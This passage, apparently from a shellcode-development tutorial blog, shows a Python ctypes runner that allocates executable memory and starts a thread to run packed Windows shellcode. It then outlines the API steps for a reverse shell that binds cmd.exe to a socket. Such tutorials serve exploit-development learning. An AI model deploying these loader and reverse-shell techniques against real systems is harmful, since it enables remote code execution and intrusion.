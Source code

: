 ```
        sh += struct.pack("B", opcode)                          # To encode for execution
        output += "\\x{0:02x}".format(int(opcode)).rstrip("\n") # For printable shellcode
 
 
    shellcode = bytearray(sh)
    print("Shellcode: " + output )
 
    # print("Attaching debugger to " + str(os.getpid()));
    # subprocess.Popen(["WinDbgX", "/g","/p", str(os.getpid())], shell=True)
    # input("Press any key to continue...");
 
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
    ctypes.windll.kernel32.RtlCopyMemory.argtypes = ( ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t ) 
    ctypes.windll.kernel32.CreateThread.argtypes = ( ctypes.c_int, ctypes.c_int, ctypes.c_void_p, ctypes.c_int, ctypes.c_int, ctypes.POINTER(ctypes.c_int) ) 
 
    space = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)),ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buff = ( ctypes.c_char * len(shellcode) ).from_buffer_copy( shellcode )
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(space),buff,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_void_p(space),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1);
 
if __name__ == "__main__":
    main()
```
<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-02_07-00.png" alt="">

Gimme the Shell
---

Next, we will do something much more interesting than spawning the Windows calculator (no offense to mathematicians). The following procedure will be used: 

* Use the same method explained before to locate [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress){:target="_blank"} within Kernel32 module.
* Use `GetProcAddress` to obtain the address of `LoadLibraryA`.
* Call `LoadLibraryA` to load `WS2_32.DLL`, required for creating a network socket.
* Lookup the address of `WSAStartup`, necessary to initiate WinSock usage.
* Lookup the `WSASocketA` address and call the function to create a socket.
* Lookup and call `WSAConnect` to establish a connection.
* Lookup the address of `CreateProcessA` using `GetProcAddress`.
* Create the `STARTUPINFOA` structure, configuring `STD INPUT/OUTPUT/ERROR` to the socket handle.
* Call `CreateProcessA` to spawn cmd.exe connected to the socket.

The following diagram is created to explain the entire procedure to be followed:

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-05_04-00.png" alt="">
